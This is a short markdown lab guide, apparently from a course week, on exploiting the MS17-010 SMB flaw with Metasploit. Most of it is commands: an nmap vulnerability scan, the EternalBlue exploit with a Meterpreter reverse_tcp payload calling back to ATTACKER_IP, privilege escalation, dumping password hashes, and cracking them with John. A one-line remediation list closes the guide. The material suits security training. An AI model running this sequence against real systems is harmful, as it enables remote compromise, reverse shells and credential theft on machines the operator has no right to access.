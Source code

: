 # SMB Exploitation with Metasploit (Week 6)

## Objective
Identify SMB vulnerabilities (MS17-010), exploit with Metasploit, gain Meterpreter, dump hashes, crack with John, and recommend remediation.

## Recon
```bash
nmap -p445 --script=smb-vuln-ms17-010 TARGET_IP -oA scans/smb_ms17
```

## Exploit
```bash
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS TARGET_IP
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
run
```

## Post-Exploitation
```bash
meterpreter> getsystem
meterpreter> hashdump
```
Crack:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

## Remediation
- Patch systems, disable SMBv1, network segmentation, LAPS for local admin mgmt, strong passwords/MFA.

## Deliverables
- Evidence of exploit (session), hashes, cracked creds, and policy changes.

